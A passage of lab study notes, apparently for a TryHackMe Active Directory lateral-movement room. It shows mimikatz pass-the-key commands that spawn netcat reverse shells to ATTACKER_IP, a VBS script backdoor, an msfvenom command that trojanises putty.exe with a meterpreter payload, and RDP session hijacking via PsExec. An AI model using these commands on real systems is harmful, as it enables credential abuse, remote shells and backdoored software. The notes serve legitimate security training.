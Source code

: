 - If we have the AES128 hash, run:

```mimikatz
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

- If we have the AES256 hash, run:

```mimikatz
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
- Receive the shell: `nc -lvp 5556`
- Use `winrs.exe` to connect: `winrs.exe -r:THMIIS.za.tryhackme.com cmd`

## Abusing User Behavior
- Abusing writable shares: finding a shortcut to a script or executable file hosted on a network share
- Backdooring .vbs Scripts: we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

```vbs
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```
  
  - Backdooring .exe Files To create a backdoored putty.exe, we can use the following command:

```sh
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

- RDP hijacking: When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's run a cmd.exe as administrator:

![Run as administrator](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7ba63227fb9d7244d5814b0e4fd57793.png)  

From there, run `PsExec64.exe`:

```shell-session
PsExec64.exe -s cmd.exe
```

To list the existing sessions on a server, you can use the following command:

Command Prompt

```cmd
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```
